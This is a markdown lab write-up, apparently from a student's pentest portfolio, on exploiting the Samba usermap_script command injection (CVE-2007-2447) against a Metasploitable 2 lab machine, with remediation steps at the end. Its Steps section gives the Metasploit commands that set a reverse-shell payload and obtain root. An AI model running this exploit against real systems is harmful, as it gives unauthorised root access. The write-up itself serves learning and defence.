




# 02 — Samba usermap_script Command Injection (CVE-2007-2447)

## Overview

| Field | Details |
|---|---|
| **Vulnerability** | Samba "username map script" Command Injection |
| **CVE** | CVE-2007-2447 |
| **CVSS Score** | 10.0 — Critical |
| **Affected Versions** | Samba 3.0.0 – 3.0.25rc3 |
| **Service** | SMB — Ports 139/445 TCP |
| **Access Gained** | Root shell — uid=0(root) gid=0(root) |
| **Target** | Metasploitable 2 — 192.168.1.9 |
| **Attacker** | Kali Linux — 192.168.1.10 |
| **Date** | July 12, 2026 |

---

## Vulnerability Summary

Samba 3.0.20 was running on the target. When the `username map script`
option is enabled in `smb.conf`, Samba passes the username field directly
to a shell without sanitization. An attacker injects shell metacharacters
into the username during MS-RPC authentication, which are executed as root
by the Samba daemon — giving immediate unauthenticated root access.

---

## Steps

### 1. Nmap Scan — Confirm Samba Version

```bash
nmap -p 139,445 -sV 192.168.1.9
```



---

### 2. Search for Metasploit Module

```bash
msf > search usermap
```



---

### 3. Configure and Run the Exploit

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.9
set LHOST  192.168.1.10
set PAYLOAD cmd/unix/reverse
run
```



---

### 4. Root Shell — Post-Exploitation

```
whoami        → root
id            → uid=0(root) gid=0(root)
hostname      → metasploitable
uname -a      → Linux metasploitable 2.6.24-16-server
```



---

## Full Report

[View PDF Report](./report.pdf)

---

## Remediation

1. **Upgrade Samba** to 3.0.25 or later (4.x recommended)
2. **Disable** `username map script` in `smb.conf`
3. **Block ports 139/445** from untrusted networks via firewall
4. Run Samba as a **non-root** service account
5. Enforce **SMBv2 minimum** — disable SMBv1 entirely

---

## What I Learned

- Targeted Nmap scanning for specific services
- CVE research and mapping to Metasploit modules
- Difference between `cmd/unix/reverse` and `Meterpreter` payloads
- How unsanitized input in privileged services leads to RCE (OWASP A03 — Injection)
- Post-exploitation enumeration from a raw command shell

---

[← Back to Lab Home](../README.md)